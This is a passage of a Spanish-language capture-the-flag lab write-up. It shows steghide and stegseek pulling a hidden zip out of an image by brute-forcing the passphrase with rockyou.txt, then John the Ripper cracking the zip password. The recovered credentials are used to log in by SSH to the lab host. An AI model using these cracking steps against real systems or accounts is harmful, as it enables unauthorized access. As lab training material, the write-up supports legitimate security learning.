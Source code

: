 La descargamos y usamos la herramienta `exiftool` para ver sus metadatos pero no encontramos nada por lo que recurrimos a `steghide` para ver si hay algún archivo oculto .

`steghide extract -sf miramebien.jpg`

```bash
"miramebien.jpg":
  format: jpeg
  capacity: 263.0 Byte
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
steghide: could not extract any data with that passphrase!
```

Como vemos al tratar de extraerlo nos pide una contraseña que no tenemos por lo que recurrimos a `stegseek` para realizar una fuerza bruta

`stegseek extract -sf miramebien.jpg -wl /usr/share/wordlists/rockyou.txt StegSeek 0.6 - https://github.com/RickdeJager/StegSeek`

```bash
[i] Found passphrase: "chocolate"
[i] Original filename: "ocultito.zip".
[i] Extracting to "miramebien.jpg.out".

```

Encontramos la contraseña y vemos que hay un archivo zip llamado ocultito de nuevo usamos la herramienta `steghide` y extraemos el archivo `ocultito.zip` pero vemos que tambien tiene contraseña

Así que nos toca recurrir a John the ripper para obtener el hash del zip y de nuevo para hacerle fuerza bruta a este.

`zip2john ocultito.zip > hash.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

`john --show hash.txt`

```bash
ocultito.zip/secret.txt:stupid1:secret.txt:ocultito.zip::ocultito.zip

1 password hash cracked, 0 left
```

Encontramos la contraseña stupid1 con lo cual extremos el zip y encontramos un txt donde se encuentra unas credenciales las cual aprovecharemos para ingresar por ssh.

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt="" width="247"><figcaption></figcaption></figure>

`ssh carlos@172.17.0.2`

```bash
Linux 055007bdd9cd 6.10.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.10.9-1kali1 (2024-09-09) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct  1 18:09:54 2024 from 172.17.0.1
```
